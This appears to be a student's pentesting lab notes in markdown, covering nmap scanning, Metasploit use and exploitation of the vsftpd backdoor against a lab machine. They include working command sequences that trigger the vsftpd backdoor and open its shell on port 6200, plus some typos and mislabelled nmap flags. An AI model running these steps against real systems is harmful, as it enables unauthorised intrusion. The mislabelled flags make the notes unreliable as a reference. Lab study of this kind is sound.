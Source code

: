 Installing first tools : 
```
apt update
apt install net-tools
apt install nmap
ifconfig
apt install -y iputils-ping
apt install metasploit-framework
```
* Testing ping for 2 machines 
```
ping <ip_victim>
```
```
ping <ip_pentester>
```
* Testing nmap roadmap 
```
nmap -F <ip_victim>
```

* Finding host and scanning network 
learning.oreilly.com/library/view/ceh-certified-ethical

1. check for live systems
```
sudo nmap -sP <ip_victim_network>/24
```

2. check for open ports
(port 80, 443 for web)
```
sudo nmap -sT -p 80,443 10.7.1.0/24
```
T : for TCP using 3-way handshake (Full Open scan) </br>
message 1 : i'm prot 443 Are you theire (SYN) </br>
message 2 : yes i'm thiere, (SYN ACK) </br>
message 3 : let's talk (ACK) </br>
More detect by the IDS </br>
3-way handshake without connection 
```
sudo nmap -sS -p 80,443 <ip_victim_network>/24
```

S : Stealthy (half Open Scan)
(2way handshake)
```
sudo nmap -sT <ip_victim>
```
If with wirshark :  </br>
filter by ip.addr eq <ip_victim> </br>
click one converstation and "apply this filter" </br>

4. Perform banner grabbing
OS detection :
```
sudo nmap -sO <ip_victim>
```
Mora options 
```
sudo nmap -A <ip_victim>
```

5. scan vulnerabilities
```
namp --script vuln <ip_victim>
```
* Scanning using msfconsole :
In Kali Terminal :
```
msfconsole
```
```
show payloads 
```
```
use auxiliary/scanner/portscan/tcp
```
```
show options
```
```
set ports 80
```
```
set rhosts <ip_victim>
```
```
run
```
OR
```
exploit
```

* Testing backdoor vsftpd manual
```
nmap -sS -p 6200 192.168.211.129
```
```
telnet  192.168.211.129 21
```
tape
```
user backdoor:)
```
tape
```
pass doesitmatter?
```
retest port
```
nmap -sS -p 6200 192.168.211.129
```
Opening backdoor in another terminal (ctrl+shift+T)
```
telnet  192.168.211.129 6200
```

* Testing backdoor vsftpd : 
```
nmap -sV -p 21 <ip_victim>
```
search the exploit : 
```
msfconsole
```
```
search vsftpd
```
run exploit : 
```
use 1
```
```
set rhosts <ip_victim>
```
```
set rport 21
```
```
exploit
```
